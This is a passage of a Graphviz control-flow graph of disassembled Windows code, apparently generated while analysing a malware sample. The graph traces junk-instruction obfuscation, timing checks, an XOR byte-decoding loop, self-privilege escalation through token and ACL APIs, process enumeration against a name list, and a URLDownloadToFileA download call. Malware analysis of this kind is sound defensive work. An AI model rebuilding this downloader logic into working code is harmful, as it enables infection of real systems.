a0x00000030addb_al_eax_[label="0x00000030\naddb %al, (%eax)"];
a0x00000032addb_al_eax_[label="0x00000032\naddb %al, (%eax)"];
a0x00000034addb_al_eax_[label="0x00000034\naddb %al, (%eax)"];
a0x00000036addb_al_eax_[label="0x00000036\naddb %al, (%eax)"];
a0x00000038addb_al_eax_[label="0x00000038\naddb %al, (%eax)"];
a0x0000003aaddb_al_eax_[label="0x0000003a\naddb %al, (%eax)"];
a0x0000003caddb_al_eax_[label="0x0000003c\naddb %al, (%eax)"];
a0x0000003eaddb_al_eax_[label="0x0000003e\naddb %al, (%eax)"];
a0x00000040addb_al_eax_[label="0x00000040\naddb %al, (%eax)"];
a0x00000042addb_al_eax_[label="0x00000042\naddb %al, (%eax)"];
a0x00000044addb_al_eax_[label="0x00000044\naddb %al, (%eax)"];
a0x00000046addb_al_eax_[label="0x00000046\naddb %al, (%eax)"];
a0x00000048addb_al_eax_[label="0x00000048\naddb %al, (%eax)"];
a0x0000004aaddb_al_eax_[label="0x0000004a\naddb %al, (%eax)"];
a0x0000004caddb_al_eax_[label="0x0000004c\naddb %al, (%eax)"];
a0x0000004eaddb_al_eax_[label="0x0000004e\naddb %al, (%eax)"];
a0x00000050addb_al_eax_[label="0x00000050\naddb %al, (%eax)"];
a0x00000052addb_al_eax_[label="0x00000052\naddb %al, (%eax)"];
a0x00000054addb_al_eax_[label="0x00000054\naddb %al, (%eax)"];
a0x00000056addb_al_eax_[label="0x00000056\naddb %al, (%eax)"];
a0x00000058addb_al_eax_[label="0x00000058\naddb %al, (%eax)"];
a0x0000005aaddb_al_eax_[label="0x0000005a\naddb %al, (%eax)"];
a0x0000005caddb_al_eax_[label="0x0000005c\naddb %al, (%eax)"];
a0x0000005eaddb_al_eax_[label="0x0000005e\naddb %al, (%eax)"];
a0x00000060addb_al_eax_[label="0x00000060\naddb %al, (%eax)"];
a0x00000062addb_al_eax_[label="0x00000062\naddb %al, (%eax)"];
a0x00000064addb_al_eax_[label="0x00000064\naddb %al, (%eax)"];
a0x00000066addb_al_eax_[label="0x00000066\naddb %al, (%eax)"];
a0x0040131fxchgl_esi_ecx -> a0x00401321xchgl_esi_ecx [color="#000000"];
a0x00401321xchgl_esi_ecx -> a0x00401323xchgl_eax_edi [color="#000000"];
a0x00401323xchgl_eax_edi -> a0x00401324nop_ [color="#000000"];
a0x00401324nop_ -> a0x00401325xchgl_eax_edi [color="#000000"];
a0x00401325xchgl_eax_edi -> a0x00401326xchgl_eax_ecx [color="#000000"];
a0x00401326xchgl_eax_ecx -> a0x00401327nop_ [color="#000000"];
a0x00401327nop_ -> a0x00401328xchgl_eax_ecx [color="#000000"];
a0x00401328xchgl_eax_ecx -> a0x00401329call_0x004013c2 [color="#000000"];
a0x00401329call_0x004013c2 -> a0x004013c2jmp_GetTickCount_kernel32_dll [color="#000000"];
a0x004013c2jmp_GetTickCount_kernel32_dll -> GetTickCount_kernel32_dll [color="#000000"];
GetTickCount_kernel32_dll -> a0x0040132epushl_eax [color="#000000"];
a0x0040132epushl_eax -> a0x0040132fxchgl_ecx_ecx [color="#000000"];
a0x0040132fxchgl_ecx_ecx -> a0x00401331popl_ecx [color="#000000"];
a0x00401331popl_ecx -> a0x00401332cmpl_0x17UINT8_ecx [color="#000000"];
a0x00401332cmpl_0x17UINT8_ecx -> a0x00401335jb_0x0040133b [color="#000000"];
a0x00401335jb_0x0040133b -> a0x00401337pushl_esi [color="#000000",label="F"];
a0x00401337pushl_esi -> a0x00401338pushl_edi [color="#000000"];
a0x00401338pushl_edi -> a0x00401339popl_edi [color="#000000"];
a0x00401339popl_edi -> a0x0040133apopl_esi [color="#000000"];
a0x0040133apopl_esi -> a0x0040133bpushl_eax [color="#000000"];
a0x0040133bpushl_eax -> a0x0040133cnop_ [color="#000000"];
a0x0040133cnop_ -> a0x0040133dpopl_eax [color="#000000"];
a0x0040133dpopl_eax -> a0x0040133enop_ [color="#000000"];
a0x0040133enop_ -> a0x0040133fxchgl_eax_edi [color="#000000"];
a0x0040133fxchgl_eax_edi -> a0x00401340xchgl_eax_edi [color="#000000"];
a0x00401340xchgl_eax_edi -> a0x00401341xchgl_eax_ecx [color="#000000"];
a0x00401341xchgl_eax_ecx -> a0x00401342nop_ [color="#000000"];
a0x00401342nop_ -> a0x00401343xchgl_eax_ecx [color="#000000"];
a0x00401343xchgl_eax_ecx -> a0x00401344pushl_0x40364eUINT32 [color="#000000"];
a0x00401344pushl_0x40364eUINT32 -> a0x00401349pushl_0x403000UINT32 [color="#000000"];
a0x00401349pushl_0x403000UINT32 -> a0x0040134ecall_0x004012e9 [color="#000000"];
a0x0040134ecall_0x004012e9 -> a0x004012e9pushl_ebp [color="#000000"];
a0x004012e9pushl_ebp -> a0x004012eamovl_esp_ebp [color="#000000"];
a0x004012eamovl_esp_ebp -> a0x004012ecpushl_edi [color="#000000"];
a0x004012ecpushl_edi -> a0x004012edpushl_edi [color="#000000"];
a0x004012edpushl_edi -> a0x004012eexorl_edi_edi [color="#000000"];
a0x004012eexorl_edi_edi -> a0x004012f0popl_edi [color="#000000"];
a0x004012f0popl_edi -> a0x004012f1movl_0x8ebp__edi [color="#000000"];
a0x004012f1movl_0x8ebp__edi -> a0x004012f4xchgl_ebx_esi [color="#000000"];
a0x004012f4xchgl_ebx_esi -> a0x004012f6nop_ [color="#000000"];
a0x004012f6nop_ -> a0x004012f7xchgl_ebx_esi [color="#000000"];
a0x004012f7xchgl_ebx_esi -> a0x004012f9jmp_0x0040130f [color="#000000"];
a0x004012f9jmp_0x0040130f -> a0x0040130fcmpl_0xcebp__edi [color="#000000"];
a0x0040130fcmpl_0xcebp__edi -> a0x00401312jne_0x004012fb [color="#000000"];
a0x00401312jne_0x004012fb -> a0x004012fbpushl_esi [color="#000000",label="T"];
a0x004012fbpushl_esi -> a0x004012fcnop_ [color="#000000"];
a0x004012fcnop_ -> a0x004012fdpopl_esi [color="#000000"];
a0x004012fdpopl_esi -> a0x004012fenop_ [color="#000000"];
a0x004012fenop_ -> a0x004012ffincl_edi [color="#000000"];
a0x004012ffincl_edi -> a0x00401300pushl_edi [color="#000000"];
a0x00401300pushl_edi -> a0x00401301popl_edi [color="#000000"];
a0x00401301popl_edi -> a0x00401302xorb_0x11UINT8__1edi_ [color="#000000"];
a0x00401302xorb_0x11UINT8__1edi_ -> a0x00401306pushl_ecx [color="#000000"];
a0x00401306pushl_ecx -> a0x00401307nop_ [color="#000000"];
a0x00401307nop_ -> a0x00401308popl_ecx [color="#000000"];
a0x00401308popl_ecx -> a0x00401309nop_ [color="#000000"];
a0x00401309nop_ -> a0x0040130anotb__1edi_ [color="#000000"];
a0x0040130anotb__1edi_ -> a0x0040130dpushl_esi [color="#000000"];
a0x0040130dpushl_esi -> a0x0040130epopl_esi [color="#000000"];
a0x0040130epopl_esi -> a0x0040130fcmpl_0xcebp__edi [color="#000000"];
a0x00401312jne_0x004012fb -> a0x00401314pushl_edi [color="#000000",label="F"];
a0x00401314pushl_edi -> a0x00401315nop_ [color="#000000"];
a0x00401315nop_ -> a0x00401316popl_edi [color="#000000"];
a0x00401316popl_edi -> a0x00401317nop_ [color="#000000"];
a0x00401317nop_ -> a0x00401318popl_edi [color="#000000"];
a0x00401318popl_edi -> a0x00401319leave_ [color="#000000"];
a0x00401319leave_ -> a0x0040131aret_0x8UINT16 [color="#000000"];
a0x0040131aret_0x8UINT16 -> a0x00401353pushl_edi [color="#000000"];
a0x00401353pushl_edi -> a0x00401354xchgl_edi_ebx [color="#000000"];
a0x00401354xchgl_edi_ebx -> a0x00401356xchgl_edi_ebx [color="#000000"];
a0x00401356xchgl_edi_ebx -> a0x00401358popl_edi [color="#000000"];
a0x00401358popl_edi -> a0x00401359xchgl_edi_edi [color="#000000"];
a0x00401359xchgl_edi_edi -> a0x0040135bnop_ [color="#000000"];
a0x0040135bnop_ -> a0x0040135cxchgl_edi_edi [color="#000000"];
a0x0040135cxchgl_edi_edi -> a0x0040135epushl_0x4012e3UINT32 [color="#000000"];
a0x0040135epushl_0x4012e3UINT32 -> a0x00401363pushl_0x401000UINT32 [color="#000000"];
a0x00401363pushl_0x401000UINT32 -> a0x00401368call_0x004012e9 [color="#000000"];
a0x00401368call_0x004012e9 -> a0x004012e9pushl_ebp [color="#000000"];
a0x0040131aret_0x8UINT16 -> a0x0040136dpushl_edi [color="#000000"];
a0x0040136dpushl_edi -> a0x0040136epushl_esi [color="#000000"];
a0x0040136epushl_esi -> a0x0040136fpopl_esi [color="#000000"];
a0x0040136fpopl_esi -> a0x00401370popl_edi [color="#000000"];
a0x00401370popl_edi -> a0x00401371pushl_esi [color="#000000"];
a0x00401371pushl_esi -> a0x00401372xorl_esi_esi [color="#000000"];
a0x00401372xorl_esi_esi -> a0x00401374popl_esi [color="#000000"];
a0x00401374popl_esi -> a0x00401375pushl_edx [color="#000000"];
a0x00401375pushl_edx -> a0x00401376xorl_edx_edx [color="#000000"];
a0x00401376xorl_edx_edx -> a0x00401378popl_edx [color="#000000"];
a0x00401378popl_edx -> a0x00401379addl_0x33013UINT32_0x0040138a [color="#000000"];
a0x00401379addl_0x33013UINT32_0x0040138a -> a0x00401383nop_ [color="#000000"];
a0x00401383nop_ -> a0x00401384xchgl_esi_edi [color="#000000"];
a0x00401384xchgl_esi_edi -> a0x00401386nop_ [color="#000000"];
a0x00401386nop_ -> a0x00401387xchgl_esi_edi [color="#000000"];
a0x00401387xchgl_esi_edi -> a0x00401389jmp_0x0040120d [color="#000000"];
a0x00401389jmp_0x0040120d -> a0x0040120dxchgl_edx_edx [color="#000000"];
a0x0040120dxchgl_edx_edx -> a0x0040120fxorl_eax_eax [color="#000000"];
a0x0040120fxorl_eax_eax -> a0x00401211call_0x004013c2 [color="#000000"];
a0x00401211call_0x004013c2 -> a0x004013c2jmp_GetTickCount_kernel32_dll [color="#000000"];
GetTickCount_kernel32_dll -> a0x00401216cmpl_0x3bUINT8_eax [color="#000000"];
a0x00401216cmpl_0x3bUINT8_eax -> a0x00401219jb_0x00401224 [color="#000000"];
a0x00401219jb_0x00401224 -> a0x0040121bnop_ [color="#000000",label="F"];
a0x0040121bnop_ -> a0x0040121cmovb_0x55UINT8_0x0040310f [color="#000000"];
a0x0040121cmovb_0x55UINT8_0x0040310f -> a0x00401223nop_ [color="#000000"];
a0x00401223nop_ -> a0x00401224call_0x00401066 [color="#000000"];
a0x00401224call_0x00401066 -> a0x00401066pushl_ebp [color="#000000"];
a0x00401066pushl_ebp -> a0x00401067movl_esp_ebp [color="#000000"];
a0x00401067movl_esp_ebp -> a0x00401069addl_0xffffffd8UINT8_esp [color="#000000"];
a0x00401069addl_0xffffffd8UINT8_esp -> a0x0040106cpushl_esi [color="#000000"];
a0x0040106cpushl_esi -> a0x0040106dpushl_edi [color="#000000"];
a0x0040106dpushl_edi -> a0x0040106epushl_0x4030abUINT32 [color="#000000"];
a0x0040106epushl_0x4030abUINT32 -> a0x00401073pushl_0x403015UINT32 [color="#000000"];
a0x00401073pushl_0x403015UINT32 -> a0x00401078call_0x00401004 [color="#000000"];
a0x00401078call_0x00401004 -> a0x00401004pushl_ebp [color="#000000"];
a0x00401004pushl_ebp -> a0x00401005movl_esp_ebp [color="#000000"];
a0x00401005movl_esp_ebp -> a0x00401007pushl_0x8ebp_ [color="#000000"];
a0x00401007pushl_0x8ebp_ -> a0x0040100acall_0x004013c8 [color="#000000"];
a0x0040100acall_0x004013c8 -> a0x004013c8jmp_LoadLibraryA_kernel32_dll [color="#000000"];
a0x004013c8jmp_LoadLibraryA_kernel32_dll -> LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x0040100ftestl_eax_eax [color="#000000"];
a0x0040100ftestl_eax_eax -> a0x00401011je_0x00401043 [color="#000000"];
a0x00401011je_0x00401043 -> a0x00401013movl_eax_ebx [color="#000000",label="F"];
a0x00401013movl_eax_ebx -> a0x00401015movl_0x8ebp__edi [color="#000000"];
a0x00401015movl_0x8ebp__edi -> a0x00401018movl_0xcebp__esi [color="#000000"];
a0x00401018movl_0xcebp__esi -> a0x0040101bcld_ [color="#000000"];
a0x0040101bcld_ -> a0x0040101cxorl_eax_eax [color="#000000"];
a0x0040101cxorl_eax_eax -> a0x0040101eorl_0xffffffffUINT8_ecx [color="#000000"];
a0x0040101eorl_0xffffffffUINT8_ecx -> a0x00401021repnz_scasb_es_edi__al [color="#000000"];
a0x00401021repnz_scasb_es_edi__al -> a0x00401023cmpb_0x0UINT8_edi_ [color="#000000"];
a0x00401023cmpb_0x0UINT8_edi_ -> a0x00401026je_0x0040103e [color="#000000"];
a0x00401026je_0x0040103e -> a0x00401028pushl_edi [color="#000000",label="F"];
a0x00401028pushl_edi -> a0x00401029pushl_ebx [color="#000000"];
a0x00401029pushl_ebx -> a0x0040102acall_0x004013bc [color="#000000"];
a0x0040102acall_0x004013bc -> a0x004013bcjmp_GetProcAddress_kernel32_dll [color="#000000"];
a0x004013bcjmp_GetProcAddress_kernel32_dll -> GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x0040102forl_eax_eax [color="#000000"];
a0x0040102forl_eax_eax -> a0x00401031jne_0x00401037 [color="#000000"];
a0x00401031jne_0x00401037 -> a0x00401037movl_eax_esi_ [color="#000000",label="T"];
a0x00401037movl_eax_esi_ -> a0x00401039addl_0x4UINT8_esi [color="#000000"];
a0x00401039addl_0x4UINT8_esi -> a0x0040103cjmp_0x0040101b [color="#000000"];
a0x0040103cjmp_0x0040101b -> a0x0040101bcld_ [color="#000000"];
a0x00401026je_0x0040103e -> a0x0040103emovl_0x1UINT32_eax [color="#000000",label="T"];
a0x0040103emovl_0x1UINT32_eax -> a0x00401043leave_ [color="#000000"];
a0x00401043leave_ -> a0x00401044ret_0x8UINT16 [color="#000000"];
a0x00401044ret_0x8UINT16 -> a0x0040107dpushl_0x4030bfUINT32 [color="#000000"];
a0x0040107dpushl_0x4030bfUINT32 -> a0x00401082pushl_0x40307eUINT32 [color="#000000"];
a0x00401082pushl_0x40307eUINT32 -> a0x00401087call_0x00401004 [color="#000000"];
a0x00401087call_0x00401004 -> a0x00401004pushl_ebp [color="#000000"];
a0x00401031jne_0x00401037 -> a0x00401033leave_ [color="#000000",label="F"];
a0x00401033leave_ -> a0x00401034ret_0x8UINT16 [color="#000000"];
a0x00401034ret_0x8UINT16 -> a0x0040108ccmpl_0x0UINT8_0x004030c3 [color="#000000"];
a0x0040108ccmpl_0x0UINT8_0x004030c3 -> a0x00401093je_0x004010a3 [color="#000000"];
a0x00401093je_0x004010a3 -> a0x004010a3cmpl_0x0UINT8_0x004030ab [color="#000000",label="T"];
a0x004010a3cmpl_0x0UINT8_0x004030ab -> a0x004010aaje_0x004010d0 [color="#000000"];
a0x004010aaje_0x004010d0 -> a0x004010accmpl_0x0UINT8_0x004030af [color="#000000",label="F"];
a0x004010accmpl_0x0UINT8_0x004030af -> a0x004010b3je_0x004010d0 [color="#000000"];
a0x004010b3je_0x004010d0 -> a0x004010b5cmpl_0x0UINT8_0x004030b3 [color="#000000",label="F"];
a0x004010b5cmpl_0x0UINT8_0x004030b3 -> a0x004010bcje_0x004010d0 [color="#000000"];
a0x004010bcje_0x004010d0 -> a0x004010becmpl_0x0UINT8_0x004030b7 [color="#000000",label="F"];
a0x004010becmpl_0x0UINT8_0x004030b7 -> a0x004010c5je_0x004010d0 [color="#000000"];
a0x004010c5je_0x004010d0 -> a0x004010c7cmpl_0x0UINT8_0x004030bb [color="#000000",label="F"];
a0x004010c7cmpl_0x0UINT8_0x004030bb -> a0x004010cejne_0x004010d4 [color="#000000"];
a0x004010cejne_0x004010d4 -> a0x004010d4pushl_0x8UINT8 [color="#000000",label="T"];
a0x004010d4pushl_0x8UINT8 -> a0x004010d6leal__40ebp__eax [color="#000000"];
a0x004010d6leal__40ebp__eax -> a0x004010d9pushl_eax [color="#000000"];
a0x004010d9pushl_eax -> a0x004010dacall_0x00401047 [color="#000000"];
a0x004010dacall_0x00401047 -> a0x00401047pushl_ebp [color="#000000"];
a0x00401047pushl_ebp -> a0x00401048movl_esp_ebp [color="#000000"];
a0x00401048movl_esp_ebp -> a0x0040104apushl_edi [color="#000000"];
a0x0040104apushl_edi -> a0x0040104bcld_ [color="#000000"];
a0x0040104bcld_ -> a0x0040104cmovl_0x8ebp__edi [color="#000000"];
a0x0040104cmovl_0x8ebp__edi -> a0x0040104fmovl_0xcebp__ecx [color="#000000"];
a0x0040104fmovl_0xcebp__ecx -> a0x00401052shrl_0x2UINT8_ecx [color="#000000"];
a0x00401052shrl_0x2UINT8_ecx -> a0x00401055xorl_eax_eax [color="#000000"];
a0x00401055xorl_eax_eax -> a0x00401057repz_stosl_eax_es_edi_ [color="#000000"];
a0x00401057repz_stosl_eax_es_edi_ -> a0x00401059movl_0xcebp__ecx [color="#000000"];
a0x00401059movl_0xcebp__ecx -> a0x0040105candl_0x3UINT8_ecx [color="#000000"];
a0x0040105candl_0x3UINT8_ecx -> a0x0040105frepz_stosb_al_es_edi_ [color="#000000"];
a0x0040105frepz_stosb_al_es_edi_ -> a0x00401061popl_edi [color="#000000"];
a0x00401061popl_edi -> a0x00401062leave_ [color="#000000"];
a0x00401062leave_ -> a0x00401063ret_0x8UINT16 [color="#000000"];
a0x00401063ret_0x8UINT16 -> a0x004010dfpushl_0x2UINT8 [color="#000000"];
a0x004010dfpushl_0x2UINT8 -> a0x004010e1pushl_0x8UINT8 [color="#000000"];
a0x004010e1pushl_0x8UINT8 -> a0x004010e3leal__40ebp__eax [color="#000000"];
a0x004010e3leal__40ebp__eax -> a0x004010e6pushl_eax [color="#000000"];
a0x004010e6pushl_eax -> a0x004010e7call_0x004030af [color="#000000"];
a0x004010e7call_0x004030af -> InitializeAcl_advapi32_dll [color="#000000"];
InitializeAcl_advapi32_dll -> a0x004010edcall_0x004013b0 [color="#000000"];
a0x004010edcall_0x004013b0 -> a0x004013b0jmp_GetCurrentProcess_kernel32_dll [color="#000000"];
a0x004013b0jmp_GetCurrentProcess_kernel32_dll -> GetCurrentProcess_kernel32_dll [color="#000000"];
GetCurrentProcess_kernel32_dll -> a0x004010f2pushl_eax [color="#000000"];
a0x004010f2pushl_eax -> a0x004010f3xchgl_eax_edx [color="#000000"];
a0x004010f3xchgl_eax_edx -> a0x004010f4pushl_0x0UINT8 [color="#000000"];
a0x004010f4pushl_0x0UINT8 -> a0x004010f6leal__40ebp__eax [color="#000000"];
a0x004010f6leal__40ebp__eax -> a0x004010f9pushl_eax [color="#000000"];
a0x004010f9pushl_eax -> a0x004010fapushl_0x0UINT8 [color="#000000"];
a0x004010fapushl_0x0UINT8 -> a0x004010fcpushl_0x0UINT8 [color="#000000"];
a0x004010fcpushl_0x0UINT8 -> a0x004010fepushl_0x4UINT8 [color="#000000"];
a0x004010fepushl_0x4UINT8 -> a0x00401100pushl_0x6UINT8 [color="#000000"];
a0x00401100pushl_0x6UINT8 -> a0x00401102pushl_edx [color="#000000"];
a0x00401102pushl_edx -> a0x00401103call_0x004030bb [color="#000000"];
a0x00401103call_0x004030bb -> SetSecurityInfo_advapi32_dll [color="#000000"];
SetSecurityInfo_advapi32_dll -> a0x00401109popl_edx [color="#000000"];
a0x00401109popl_edx -> a0x0040110aleal__4ebp__eax [color="#000000"];
a0x0040110aleal__4ebp__eax -> a0x0040110dpushl_eax [color="#000000"];
a0x0040110dpushl_eax -> a0x0040110epushl_0x28UINT8 [color="#000000"];
a0x0040110epushl_0x28UINT8 -> a0x00401110pushl_edx [color="#000000"];
a0x00401110pushl_edx -> a0x00401111call_0x004030b7 [color="#000000"];
a0x00401111call_0x004030b7 -> OpenProcessToken_advapi32_dll [color="#000000"];
OpenProcessToken_advapi32_dll -> a0x00401117leal__12ebp__eax [color="#000000"];
a0x00401117leal__12ebp__eax -> a0x0040111apushl_eax [color="#000000"];
a0x0040111apushl_eax -> a0x0040111bpushl_0x403004UINT32 [color="#000000"];
a0x0040111bpushl_0x403004UINT32 -> a0x00401120pushl_0x0UINT8 [color="#000000"];
a0x00401120pushl_0x0UINT8 -> a0x00401122call_0x004030b3 [color="#000000"];
a0x00401122call_0x004030b3 -> LookupPrivilegeValueA_advapi32_dll [color="#000000"];
LookupPrivilegeValueA_advapi32_dll -> a0x00401128leal__12ebp__esi [color="#000000"];
a0x00401128leal__12ebp__esi -> a0x0040112bleal__24ebp__edi [color="#000000"];
a0x0040112bleal__24ebp__edi -> a0x0040112emovl_0x8UINT32_ecx [color="#000000"];
a0x0040112emovl_0x8UINT32_ecx -> a0x00401133repz_movsb_ds_esi__es_edi_ [color="#000000"];
a0x00401133repz_movsb_ds_esi__es_edi_ -> a0x00401135movl_0x1UINT32__28ebp_ [color="#000000"];
a0x00401135movl_0x1UINT32__28ebp_ -> a0x0040113cmovl_0x2UINT32__16ebp_ [color="#000000"];
a0x0040113cmovl_0x2UINT32__16ebp_ -> a0x00401143leal__32ebp__eax [color="#000000"];
a0x00401143leal__32ebp__eax -> a0x00401146pushl_eax [color="#000000"];
a0x00401146pushl_eax -> a0x00401147leal__28ebp__eax [color="#000000"];
a0x00401147leal__28ebp__eax -> a0x0040114apushl_eax [color="#000000"];
a0x0040114apushl_eax -> a0x0040114bpushl_0x10UINT8 [color="#000000"];
a0x0040114bpushl_0x10UINT8 -> a0x0040114dpushl_eax [color="#000000"];
a0x0040114dpushl_eax -> a0x0040114epushl_0x0UINT8 [color="#000000"];
a0x0040114epushl_0x0UINT8 -> a0x00401150pushl__4ebp_ [color="#000000"];
a0x00401150pushl__4ebp_ -> a0x00401153call_0x004030ab [color="#000000"];
a0x00401153call_0x004030ab -> AdjustTokenPrivileges_advapi32_dll [color="#000000"];
AdjustTokenPrivileges_advapi32_dll -> a0x00401159popl_edi [color="#000000"];
a0x00401159popl_edi -> a0x0040115apopl_esi [color="#000000"];
a0x0040115apopl_esi -> a0x0040115bleave_ [color="#000000"];
a0x0040115bleave_ -> a0x0040115cret [color="#000000"];
a0x0040115cret -> a0x00401229call_0x00401182 [color="#000000"];
a0x00401229call_0x00401182 -> a0x00401182pushl_ebp [color="#000000"];
a0x00401182pushl_ebp -> a0x00401183movl_esp_ebp [color="#000000"];
a0x00401183movl_esp_ebp -> a0x00401185addl_0xfffffed4UINT32_esp [color="#000000"];
a0x00401185addl_0xfffffed4UINT32_esp -> a0x0040118bpushl_edi [color="#000000"];
a0x0040118bpushl_edi -> a0x0040118cmovl_0x128UINT32__296ebp_ [color="#000000"];
a0x0040118cmovl_0x128UINT32__296ebp_ -> a0x00401196pushl_0x0UINT8 [color="#000000"];
a0x00401196pushl_0x0UINT8 -> a0x00401198pushl_0x2UINT8 [color="#000000"];
a0x00401198pushl_0x2UINT8 -> a0x0040119acall_0x0040139e [color="#000000"];
a0x0040119acall_0x0040139e -> a0x0040139ejmp_CreateToolhelp32Snapshot_kernel32_dll [color="#000000"];
a0x0040139ejmp_CreateToolhelp32Snapshot_kernel32_dll -> CreateToolhelp32Snapshot_kernel32_dll [color="#000000"];
CreateToolhelp32Snapshot_kernel32_dll -> a0x0040119fmovl_eax__300ebp_ [color="#000000"];
a0x0040119fmovl_eax__300ebp_ -> a0x004011a5leal__296ebp__eax [color="#000000"];
a0x004011a5leal__296ebp__eax -> a0x004011abpushl_eax [color="#000000"];
a0x004011abpushl_eax -> a0x004011acpushl__300ebp_ [color="#000000"];
a0x004011acpushl__300ebp_ -> a0x004011b2call_0x004013d4 [color="#000000"];
a0x004011b2call_0x004013d4 -> a0x004013d4jmp_Process32First_kernel32_dll [color="#000000"];
a0x004013d4jmp_Process32First_kernel32_dll -> Process32First_kernel32_dll [color="#000000"];
Process32First_kernel32_dll -> a0x004011b7orl_eax_eax [color="#000000"];
a0x004011b7orl_eax_eax -> a0x004011b9je_0x004011fd [color="#000000"];
a0x004011b9je_0x004011fd -> a0x004011bbmovl_0x403208UINT32_edi [color="#000000",label="F"];
a0x004011bbmovl_0x403208UINT32_edi -> a0x004011c0pushl_edi [color="#000000"];
a0x004011c0pushl_edi -> a0x004011c1leal__260ebp__eax [color="#000000"];
a0x004011c1leal__260ebp__eax -> a0x004011c7pushl_eax [color="#000000"];
a0x004011c7pushl_eax -> a0x004011c8call_0x004013ec [color="#000000"];
a0x004011c8call_0x004013ec -> a0x004013ecjmp_lstrcmpiA_kernel32_dll [color="#000000"];
a0x004013ecjmp_lstrcmpiA_kernel32_dll -> lstrcmpiA_kernel32_dll [color="#000000"];
lstrcmpiA_kernel32_dll -> a0x004011cdorl_eax_eax [color="#000000"];
a0x004011cdorl_eax_eax -> a0x004011cfjne_0x004011dc [color="#000000"];
a0x004011cfjne_0x004011dc -> a0x004011dccld_ [color="#000000",label="T"];
a0x004011dccld_ -> a0x004011ddxorl_eax_eax [color="#000000"];
a0x004011ddxorl_eax_eax -> a0x004011dforl_0xffffffffUINT8_ecx [color="#000000"];
a0x004011dforl_0xffffffffUINT8_ecx -> a0x004011e2repnz_scasb_es_edi__al [color="#000000"];
a0x004011e2repnz_scasb_es_edi__al -> a0x004011e4cmpb_0x0UINT8_edi_ [color="#000000"];
a0x004011e4cmpb_0x0UINT8_edi_ -> a0x004011e7jne_0x004011c0 [color="#000000"];
a0x004011e7jne_0x004011c0 -> a0x004011c0pushl_edi [color="#000000",label="T"];
a0x004011e7jne_0x004011c0 -> a0x004011e9leal__296ebp__eax [color="#000000",label="F"];
a0x004011e9leal__296ebp__eax -> a0x004011efpushl_eax [color="#000000"];
a0x004011efpushl_eax -> a0x004011f0pushl__300ebp_ [color="#000000"];
a0x004011f0pushl__300ebp_ -> a0x004011f6call_0x004013da [color="#000000"];
a0x004011f6call_0x004013da -> a0x004013dajmp_Process32Next_kernel32_dll [color="#000000"];
a0x004013dajmp_Process32Next_kernel32_dll -> Process32Next_kernel32_dll [color="#000000"];
Process32Next_kernel32_dll -> a0x004011fbjmp_0x004011b7 [color="#000000"];
a0x004011fbjmp_0x004011b7 -> a0x004011b7orl_eax_eax [color="#000000"];
a0x004011b9je_0x004011fd -> a0x004011fdpushl__300ebp_ [color="#000000",label="T"];
a0x004011fdpushl__300ebp_ -> a0x00401203call_0x00401398 [color="#000000"];
a0x00401203call_0x00401398 -> a0x00401398jmp_CloseHandle_kernel32_dll [color="#000000"];
a0x00401398jmp_CloseHandle_kernel32_dll -> CloseHandle_kernel32_dll [color="#000000"];
CloseHandle_kernel32_dll -> a0x00401208xorl_eax_eax [color="#000000"];
a0x00401208xorl_eax_eax -> a0x0040120apopl_edi [color="#000000"];
a0x0040120apopl_edi -> a0x0040120bleave_ [color="#000000"];
a0x0040120bleave_ -> a0x0040120cret [color="#000000"];
a0x0040120cret -> a0x0040122emovl_0x00403668_eax [color="#000000"];
a0x0040122emovl_0x00403668_eax -> a0x00401233pushl_0x4030f3UINT32 [color="#000000"];
a0x00401233pushl_0x4030f3UINT32 -> a0x00401238call_0x004013c8 [color="#000000"];
a0x00401238call_0x004013c8 -> a0x004013c8jmp_LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x0040123dorl_eax_eax [color="#000000"];
a0x0040123dorl_eax_eax -> a0x0040123fje_0x0040129a [color="#000000"];
a0x0040123fje_0x0040129a -> a0x00401241pushl_0x40310fUINT32 [color="#000000",label="F"];
a0x00401241pushl_0x40310fUINT32 -> a0x00401246pushl_eax [color="#000000"];
a0x00401246pushl_eax -> a0x00401247call_0x004013bc [color="#000000"];
a0x00401247call_0x004013bc -> a0x004013bcjmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x0040124corl_eax_eax [color="#000000"];
a0x0040124corl_eax_eax -> a0x0040124eje_0x0040129a [color="#000000"];
a0x0040124eje_0x0040129a -> a0x00401250movl_eax_0x00403664 [color="#000000",label="F"];
a0x00401250movl_eax_0x00403664 -> a0x00401255movl_0x4031c3UINT32_eax [color="#000000"];
a0x00401255movl_0x4031c3UINT32_eax -> a0x0040125amovl_0x4031f6UINT32_ebx [color="#000000"];
a0x0040125amovl_0x4031f6UINT32_ebx -> a0x0040125fmovl_0x1UINT32_ecx [color="#000000"];
a0x0040125fmovl_0x1UINT32_ecx -> a0x00401264movb_0x31UINT8_0x004031f4 [color="#000000"];
a0x00401264movb_0x31UINT8_0x004031f4 -> a0x0040126bmovb_0x31UINT8_0x00403202 [color="#000000"];
a0x0040126bmovb_0x31UINT8_0x00403202 -> a0x00401272call_0x004012a8 [color="#000000"];
a0x00401272call_0x004012a8 -> a0x004012a8pushl_ebx [color="#000000"];
a0x004012a8pushl_ebx -> a0x004012a9pushl_eax [color="#000000"];
a0x004012a9pushl_eax -> a0x004012aapushl_ecx [color="#000000"];
a0x004012aapushl_ecx -> a0x004012abxchgl_ecx_ecx [color="#000000"];
a0x004012abxchgl_ecx_ecx -> a0x004012adxchgl_ebx_ebx [color="#000000"];
a0x004012adxchgl_ebx_ebx -> a0x004012afpushl_0x0UINT8 [color="#000000"];
a0x004012afpushl_0x0UINT8 -> a0x004012b1pushl_0x0UINT8 [color="#000000"];
a0x004012b1pushl_0x0UINT8 -> a0x004012b3pushl_ebx [color="#000000"];
a0x004012b3pushl_ebx -> a0x004012b4pushl_eax [color="#000000"];
a0x004012b4pushl_eax -> a0x004012b5pushl_0x0UINT8 [color="#000000"];
a0x004012b5pushl_0x0UINT8 -> a0x004012b7call_0x00403664 [color="#000000"];
a0x004012b7call_0x00403664 -> URLDownloadToFileA_urlmon_dll [color="#000000"];
URLDownloadToFileA_urlmon_dll -> a0x004012bdnop_ [color="#000000"];
a0x004012bdnop_ -> a0x004012benop_ [color="#000000"];
a0x004012benop_ -> a0x004012bfnop_ [color="#000000"];
a0x004012bfnop_ -> a0x004012c0popl_ecx [color="#000000"];
